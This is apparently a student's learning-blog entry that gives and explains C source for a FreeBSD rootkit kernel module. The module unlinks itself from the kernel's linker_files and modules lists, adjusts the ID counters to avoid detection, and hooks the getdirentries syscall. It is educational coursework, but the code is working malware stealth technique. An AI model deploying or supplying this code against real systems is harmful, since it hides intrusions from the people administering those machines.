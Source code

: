 Here's the code for this part:
```C
/*
    * These are the vars we will need to hide this module from the kernel
    * itself. They are not defined in any of our headers, so we need
    * to set up some references here so we can actually modify them.
*/
extern linker_file_list_t linker_files;
extern struct sx kld_sx;
extern int next_file_id;
typedef TAILQ_HEAD(, module) modulelist_t;
extern modulelist_t modules;
extern int nextid;
struct module {
    TAILQ_ENTRY(module)    link; // Chain together all modules
    TAILQ_ENTRY(module)    flink; // All modules in a file.
    struct linker_file     *file; // file which contains this module
    int 		       refs; // Reference  count
    int 		       id; // Unique id number
    char 		       *name; // Module name
    modeventhand_t	       handler; // Event handler
    void		       *arg;
    modspecific_t	       data; // Module specific data.
};

// Function called at load/unload
static int load (struct module *module, int cmd, void *arg) {

    int err = 0;

    if (cmd ==  MOD_LOAD) {
        struct linker_file *lf;
        struct module *mod;

        mtx_lock(&Giant);
        sx_xlock(&kld_sx);

        // Decrease curr kernels ref count by 1
        (&linker_files)-&gt;tqh_first-&gt;refs--;

        /*
            * Go thru linker_files list. If we find ours, remove it
            * from the list and decrement next_file_id.
        */

        TAILQ_FOREACH(lf, &linker_files, link) {
            if (strncmp(lf-&gt;filename, VERSION, LENGTH) == 0) {
                nextid--;
                TAILQ_REMOVE(&linker_files, lf, link);
                break;
            }
        }

        sx_xunlock(&kld_sx);
        mtx_unlock(&Giant);

        sx_xlock(&modules_sx);

        TAILQ_FOREACH(mod, &modules, link) {
            if (strcmp(mod-&gt;name, "hider") == 0) {
                nextid--;
                TAILQ_REMOVE(&modules, mod, link);
                break;
            }
        }

        sx_xunlock(&modules_sx);

        sysent[SYS_getdirentries].sy_call = (sy_call_t *)dir_hook;
    } else if (MOD_UNLOAD) {
        sysent[SYS_getdirentries].sy_call = (sy_call_t *)sys_getdirentries;
    } else {
        err = EOPNOTSUPP;
    }

    return (err);
}
```

I know a lot of this is laid out in the *Desingning FreeBSD Rootkits* book. The thing is, it doesn&rsquo;t really explain much, it just gives the code after describing all the relevant stuff. This section&rsquo;s going to be showing I actually put the work in to understand what was going on, as I describe what each line does, how it&rsquo;s relevant and how it works.

Firstly, extern: The variables we declares right at the start of the program are mostly extern. This is because these variables all exist in the files we are #including, but none of them are made directly available through the header files themselves &ndash; they just exist in the source c files. What this means is that we know they&rsquo;re there, but we just need to make them available to ourselves.

This is where extern comes in. This is telling our program not to define any mem space for these variables, meaning that it instead will rely on the linker to find them for us. This means that they will end up referencing the vars we import through our #includes, even though there are no prototypes for them in the relevant header files themselves which we are #including. This is also why you never see the code actually explicitly define the variables.

Now, onto implementing the module hiding:

We can basically look at removing our module from the linker_files list and modules lsit as two instances of nearly identical processes. Here&rsquo;s how I worked through it:

## For linker_files:

* * *

Before we make any modifications to the linker_files list, we need to make sure we place the lock.

The textbook says to use Giant lock and kdm lock. However, this might have changed since the version of FreeBSD the textbook discusses, so I&rsquo;m first going to take a look at the source code to just see what they use.

![](https://www.openlearning.com/u/callumjones/blog/SaHidingARootkitFromKernelMyImplementationAndReflection/Picture16.png?action=download)

So, it looks like now &ldquo;linker_files&rdquo; is protected by an sx lock, so we just have to account for that in our code. We change the line *mtx_lock(&kld_mtx); *to *sx_lock(&kld_sx);* This should account for the updates to the OS.

We know from the notes I wrote that each linker_file struct stores how many other objects are referencing it (the *refs* component). We also know that the first entry in the list of linker_files is always the kernel. Because our rootkit is a module, it will be referencing the kernel, so we now need to reduce that by one.

We also know that the list is a TAILQ data type. Looking at these docs ([https://man7.org/linux/man-pages/man3/tailq.3.html](https://man7.org/linux/man-pages/man3/tailq.3.html)) we know that to reference the first in the list, we simply need to refer to tailq_first.

Now we need to actually look through the list for the name of our KLD (for me that&rsquo;s just hook.ko). Having found it with a simple strcmp, we can then remove it from the TAILQ using the TAILQ_REMOVE() macro (again, see the docs)

Looking in kern_linker.c, we can also see that there is a counter associated with the linker_files. This seems to track the next available ID for a module that is loaded in. It would be a giveaway if this number suddenly skipped one, so we need to decrease it by one when we remove our module&rsquo;s linker_file struct from the TAILQ as well.

![](https://www.openlearning.com/u/callumjones/blog/SaHidingARootkitFromKernelMyImplementationAndReflection/Picture17.png?action=download)

Searching for this in the rest of the file, we can see that it does indeed increment each time we load a module into the linker_files TAILQ.

Now we quickly need to unlock the locks we placed on this function.

Having done this, we&rsquo;ve hidden our module&rsquo;s linker_file information. Now we need to move on to the modules list.

## For Modules

* * *

Now we do more or less the same with the modules list. This section's pretty short because it's all more or less identical (see code at top of post_

The main difference is that in this case, we&rsquo;re using sx_xlock(). Otherwise, we follow the same process for the actual list modification, and then remember to unlock the object again at the end of the sequence.

Then after all this we obviously need to keep our function hook in place (as this is all happening in the load module event handler function.) This code is being prepended to that.

Interestingly, handling MOD_UNLOAD is useless at this point - the kernel literally doesn't know the module's there, so it cannot ever unload it. (Lots of restarts here I come.)

## My Reflections on This Part

* * *

Much easier than the function hooking to be honest. I think it&rsquo;s because I took what I learnt there and applied it here. So firstly, I was much quicker to check through the actual source code to see how much had changed since the version of FreeBSD used in the book. This was the case for sx_xlock &ndash; I knew to look to check the book, I knew where to look and I knew how to look.<span><span><span> </span></span></span>I picked up on this one before it even became a problem in my code. The textbook mentioned it had changed once before, so I thought it would be good to pre-emptively check (and it was.)

Another interesting thing was my linker_file_t variable. It wasn't recognised, with the make giving an error. I spent a while looking through the linker_file.c to see if struct names had changed, but they hadn't. In the end, I discovered that in C, you cannot declare a variable inside a switch statement, which even after 3 years of working in it I didn't know.

I also had the error that Sx_xlock was undefined. This was another easy fix, as looking at the man page, we see that we need an additional include - #include &lt;sys/sx.h&gt;. I think my experience debugging past parts of this project made me much more profficient at this debugging.

Overall, this part was much easier than the nightmare that was function hooking, but I still learnt a tonne and am super happy with the result!